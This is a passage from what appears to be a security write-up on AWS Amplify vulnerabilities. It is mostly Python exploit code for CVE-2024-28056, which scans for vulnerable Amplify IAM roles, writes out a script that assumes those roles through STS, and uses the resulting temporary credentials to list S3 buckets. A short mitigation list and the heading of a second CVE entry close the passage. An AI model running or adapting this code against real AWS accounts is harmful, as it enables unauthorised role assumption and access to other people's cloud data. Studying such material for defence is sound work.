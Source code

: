 ```python
        RoleSessionName='ExploitSession'
    )
    
    # Use temporary credentials
    creds = response['Credentials']
    
    # Create new session with assumed role
    assumed_session = boto3.Session(
        aws_access_key_id=creds['AccessKeyId'],
        aws_secret_access_key=creds['SecretAccessKey'],
        aws_session_token=creds['SessionToken']
    )
    
    # Example: List S3 buckets with assumed privileges
    s3 = assumed_session.client('s3')
    buckets = s3.list_buckets()
    
    print("[+] Accessible S3 buckets:")
    for bucket in buckets['Buckets']:
        print(f"    - {{bucket['Name']}}")

if __name__ == "__main__":
    exploit()
"""
    
    with open('cve_2024_28056_exploit.py', 'w') as f:
        f.write(exploit)
    
    print(f"[+] Exploit code saved to cve_2024_28056_exploit.py")

if __name__ == "__main__":
    vulnerable = scan_amplify_roles()
    
    if vulnerable:
        print(f"\n[!] Found {len(vulnerable)} vulnerable roles")
        for role in vulnerable:
            print(f"    - {role['RoleName']}")
            generate_exploit_code(role['RoleArn'])
    else:
        print("[+] No vulnerable Amplify roles found")
```

### Mitigation
- Update Amplify CLI to version 12.10.1 or later
- Review and restrict IAM role trust policies
- Implement external ID requirements
- Use condition keys to restrict role assumption

---

## CVE-2025-4318 - AWS Amplify Studio Code Injection
**CVSS Score:** 8.6 (High)  
**Affected:** amplify-codegen-ui package (before May 5, 2025)  
**Impact:** Arbitrary JavaScript code execution
